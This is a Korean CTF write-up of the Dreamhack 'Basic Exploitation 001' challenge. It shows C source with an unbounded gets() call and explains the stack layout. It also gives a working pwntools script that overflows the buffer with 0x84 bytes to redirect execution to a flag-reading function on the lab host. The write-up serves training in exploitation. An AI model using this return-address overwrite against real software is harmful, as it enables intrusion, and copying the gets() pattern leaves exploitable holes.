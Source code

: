 ```yaml
---
title: "[pwn]Basic Exploitation 001"
excerpt: "Dreamhack Basic Exploitation 001"
category: CTF
tags: [pwnable]
toc: true
toc_label: "Table of Contents"
toc_sticky: true
---
```

1. 환경 확인  
**file** 명령어로 i386, LE 환경인것을 확인한다.

2. code 확인  
~~~
void read_flag(){
    system("cat /flag");
}
int main(int argc, char *argv[]){
    char buf[0x80];
    initialize();
    gets(buf); // gcc에서도 경고하는 gets
    return 0;
}
~~~

코드에서 알수 있듯이 버퍼의 크기는 0x80, **gets()** 함수는 입력의 크기를 확인하지 않고 받는다. 따라서 Stack Buffer Overflow를 이용해서 exploit할수 있다. 심지어 친절하게 **read_flag()** 함수를 만들어 두어서 shellcode를 사용하지 않아도 된다.  

3. payload 작성  
메모리를 확인하면 $esp에 0x80 크기의 버퍼를 두고 4byte의 SFP, 그뒤에 main 함수의 ret 주소가 있다.  
따라서 0x84 크기의 dummy와 **read_flag()** 의 주소 0x080485B9를 **p32()** 를 통해 LE로 넣는다.  

4. script 작성
 
~~~
from pwn import *

p=remote('host1.dreamhack.games',22850)
payload=b'A'\*0x84+p32(0x080485B9)
p.sendline(payload)
p.interactive()
~~~

<img width="614" alt="Script exec" src="https://user-images.githubusercontent.com/45323902/154213519-80a0e1e2-1867-4239-a9d0-67903df5a605.png">
